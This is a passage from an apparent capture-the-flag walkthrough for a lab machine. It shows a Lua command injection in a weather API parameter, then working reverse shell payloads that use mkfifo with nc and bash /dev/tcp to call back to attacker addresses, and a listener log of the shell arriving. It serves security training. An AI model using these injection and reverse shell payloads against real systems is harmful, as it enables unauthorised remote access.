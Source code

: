 ```console
└─╼$ curl http://10.10.10.218/weather/forecast?city=qwe
{"code": 500,"error": "unknown city: qwe"}
```

- Lua Command Injection, POC:

```console
└─╼$ curl -s "http://10.10.10.218/weather/forecast?city=qwe')--"
{"code": 500,"error": "unknown city: qwe

└─╼$ curl -s "http://10.10.10.218/weather/forecast?city=qwe');require('os');os.execute('id');--"
{"code": 500,"error": "unknown city: qweuid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
```

So, in order to use this vuln to get a lua reverse shell, test some required packages like `socket` and `os`.

- os: yes
- socket: no

```console
└─╼$ curl -s "http://10.10.10.218/weather/forecast?city=qwe');require('socket');require('os');--"
{"code": 500,"error": "unknown city: qwe<br>Lua error: [string "                httpd.write('{"code": 500,')..."]:2: module 'socket' not found:
        no field package.preload['socket']
        no file '/usr/share/lua/5.3/socket.lua'
        no file '/usr/share/lua/5.3/socket/init.lua'
        no file '/usr/lib/lua/5.3/socket.lua'
        no file '/usr/lib/lua/5.3/socket/init.lua'
        no file '/usr/lib/lua/5.3/socket.so'
        no file '/usr/lib/lua/5.3/loadall.so'
```

Try different reverse shell implementations, nc[x], bash -i[x], bash -c[x], mkfifo[yes].

- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 1234 >/tmp/f`
- Exploit: `curl -G --data-urlencode "city=') os.execute('bash -c "bash -i >& /dev/tcp/10.10.14.11/443 0&>1"') 'http://10.10.10.218/weather/forecast'`

- nc to get a _httpd priv shell

```console
└─╼$ sudo rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.218] 65346
sh: can't access tty; job control turned off
$ id
uid=24(_httpd) gid=24(_httpd) groups=24(_httpd)
$ uname -a
NetBSD luanne.htb 9.0 NetBSD 9.0 (GENERIC) #0: Fri Feb 14 00:06:28 UTC 2020  mkrepro@mkrepro.NetBSD.org:/usr/src/sys/arch/amd64/compile/GENERIC amd64
```

## Privilege Escalation

### _httpd -> r.michaels
